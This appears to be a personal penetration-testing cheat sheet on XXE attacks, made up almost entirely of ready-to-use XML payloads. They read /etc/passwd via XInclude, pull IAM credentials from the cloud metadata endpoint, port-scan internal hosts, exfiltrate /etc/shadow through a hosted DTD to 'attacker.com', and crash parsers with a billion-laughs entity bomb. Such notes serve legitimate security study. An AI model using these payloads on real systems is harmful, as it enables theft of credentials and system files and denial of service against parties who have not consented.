    *XInclude* is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`
	```xml
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
	<xi:include parse="text" href="file:///etc/passwd"/></foo>
	```
#### Escalating the Attack
What you can achieve with an XXE vulnerability depends on the permissions given to the XML parser
-  [[file Inclusion]] use `file` entity to access and exfiltrate system files, source code, and directory listings
- [[SSRF]] to pull instance metadata, port scanning
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ 
	<!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> 
	<!ENTITY portScan SYSTEM "http://10.0.0.1:80">
	]> 
	<example>&file;</example>
	<scan>&portScan;</scan>	
	```
- Blind XXE
	to exfiltrate data via a blind XXE, you have to host an external DTD on your server. Try hosting a file named xxe.dtd on your server:
	```xml
	<!ENTITY % file SYSTEM "file:///etc/shadow"> 
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?%file;'>"> 
	%ent; 
	%exfiltrate;
	```
	or 
	```xml
	<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow"> <!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?%file;'>"> 
	%ent; 
	%exfiltrate;
	```
	Then make the target parser interpret your DTD by specifying it within a parameter entity and referencing that entity: 
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ 
		<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> 
		%xxe; 
	]>
	```
- [[DoS]]  using `billion laughs attack ` 
```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ 
		<!ELEMENT example ANY> 
		<!ENTITY lol "lol"> 
		<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> 
		<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> 
		<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> 
		<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> 
		<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> 
		<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> 
		<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> 
		<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> 
		<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> 
	]>
	<example>&lol9;</example>
```